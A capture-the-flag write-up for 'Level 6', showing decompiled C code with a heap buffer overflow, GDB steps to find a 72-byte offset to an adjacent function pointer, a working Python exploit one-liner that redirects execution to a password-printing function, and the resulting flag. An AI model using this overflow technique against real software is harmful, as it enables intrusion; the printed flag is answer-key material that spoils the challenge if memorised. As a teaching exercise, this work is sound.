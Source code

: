 # Level 6: Heap Buffer Overflow and Function Pointer Hijacking

## Challenge Overview

Level 6 involves exploiting a heap buffer overflow vulnerability to retrieve the password for the next level.

## Source Code

Using Ghidra, we get a source code of the binary that looks like this:

```c
void n(void)
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1, int param_2, char *param_3, int param_4, int param_5)
{
  puts("Nope");
  return;
}

int main(int argc, char **argv)
{
  char *buffer;
  void (**function_ptr)(void);

  buffer = (char *)malloc(64);
  function_ptr = malloc(4);
  *function_ptr = m;
  strcpy(buffer, argv[1]);
  (*function_ptr)();
  return 0;
}
```

## Source Code Analysis

Looking at the source code, we can identify a heap buffer overflow vulnerability:

1. The program allocates a 64-byte buffer on the heap with `malloc()`
2. It then allocates a 4-byte function pointer on the heap and sets it to point to `m()`
3. It copies user input into the buffer using `strcpy()` without size checking
4. Finally, it calls the function pointed to by the function pointer

Since `strcpy()` doesn't perform bounds checking, we can overflow the buffer and potentially overwrite the function pointer. If we can replace the address of `m()` with the address of `n()`, we can get the program to print the password for level7.

## Vulnerability

The vulnerability lies in the use of `strcpy()` to copy user input into a heap-allocated buffer without checking the size of the input. This allows an attacker to overflow the buffer and overwrite adjacent memory, including the function pointer.

## Exploitation Steps

1. Determine the address of the `n()` function

   ```
   (gdb) disas n
   ```

2. Determine how much padding is needed to reach the function pointer

   - We know the buffer is 64 bytes
   - But since both are allocated with malloc, we need to determine the exact offset. That is because malloc adds metadata to each allocation (like size information and alignment padding), creating additional space between consecutive allocations on the heap.

3. Create an exploit string with padding + `n` address

   ```bash
   ./level6 $(python -c 'print "A"*[OFFSET] + "\x[n_ADDR]"')
   ```

4. Run the exploit and obtain the password

## Getting the Password

First, let's find the address of the `n()` function:

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   ...
```

The address of `n` is 0x08048454.

Next, we need to determine the exact offset between the buffer and the function pointer. We can find this using GDB by examining the memory addresses from the malloc calls:

```bash
(gdb) disas main
    0x0804848c <+16>:    call   0x8048350 <malloc@plt>
    0x08048491 <+21>:    mov    %eax,0x1c(%esp)
    ...
    0x0804849c <+32>:    call   0x8048350 <malloc@plt>
    0x080484a1 <+37>:    mov    %eax,0x18(%esp)
```

```
(gdb) break main
(gdb) run test
(gdb) break *0x08048491  # Break after first malloc. The '*' indicates that we want to break at the address of the instruction.
(gdb) cont               # Runs the program until it hits the breakpoint
(gdb) x $eax             # Show address returned by first malloc (buffer)
0x804a008:      0x00000000
(gdb) break *0x080484a1  # Break after second malloc
(gdb) cont
(gdb) x $eax             # Show address returned by second malloc (function pointer)
0x804a050:      0x00000000
```

Calculating the difference: 0x804a050 - 0x804a008 = 0x48 (72 in decimal)

So we can confirm that an offset of 72 bytes is needed to reach and overwrite the function pointer:

```bash
./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
```

This command will execute the program with our crafted input, causing it to call `n()` which will display the contents of `/home/user/level7/.pass`.

```bash
./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
